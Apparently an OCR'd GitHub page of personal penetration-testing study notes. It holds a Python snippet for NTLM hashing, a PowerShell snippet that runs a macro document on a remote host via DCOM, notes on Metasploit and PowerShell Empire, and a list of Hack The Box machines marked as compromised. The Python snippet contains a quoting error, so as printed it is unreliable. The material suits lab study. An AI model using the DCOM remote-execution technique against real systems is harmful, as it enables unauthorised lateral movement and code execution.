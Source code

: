 Calculate NTLM hash over plaintext:
```python
import hashlib, binascii
hash = hashlib.new('md4', 'PASS''.encode('utf-16le')).digest()
print(binascii.hexlify(hash))
```

Run macro doc on remote host via DCOM:
```powershell
$c = [activator]::CreateInstance([type]::GetTypeFromProgId("Excel.Application", "LHOST"))
$w = $c.Workbooks.Open("LPATH") # path to doc file
$c.Run("MACRONAME")
```

Most useful resource in general is [adsecurity.org](https://adsecurity.org/)

# Metasploit framework
----------------------
Basic usage is, well, basic and does not require some super skills but I'd like to check out
free [metasploit unleashed](https://www.offensive-security.com/metasploit-unleashed/) course from offsec.

# Powershell empire
-------------------
Barely touched this, seems to be pretty similar to MSF. Though looks like I should get in touch with 
[docs](http://www.powershellempire.com/) to be familiar with concepts. Weird, but their github repo is no longer supported.

# Vulnerable machines and practice resources
--------------------------------------------
List of additional stuff to pwn.

TJNull's list of HTB machines:

   Platform   |        Name        |       Status        
--------------|--------------------|---------------------
 nix          | lame               | pwnd
 nix          | brainfuck          | pwnd
 nix          | shocker            | pwnd
 nix          | bashed             | pwnd
 nix          | nibbles            | pwnd
 nix          | beep               | pwnd
 nix          | cronos             | pwnd
 nix          | nineveh            | pwnd
 nix          | sense              | pwnd
 nix          | solidstate         | pwnd
 nix          | kotarak            | pwnd
 nix          | node               | pwnd
 nix          | valentine          | pwnd
 nix          | poison             | pwnd
 nix          | sunday             | pwnd
 nix          | tartarsauce        | pwnd
 nix          | jail               | -
 nix          | falafel            | -
 nix          | devops             | -
 nix          | hawk               | -
 win          | legacy             | pwnd
 win          | blue               | pwnd
 win          | devel              | pwnd
 win          | optimum            | pwnd
 win          | bastard            | pwnd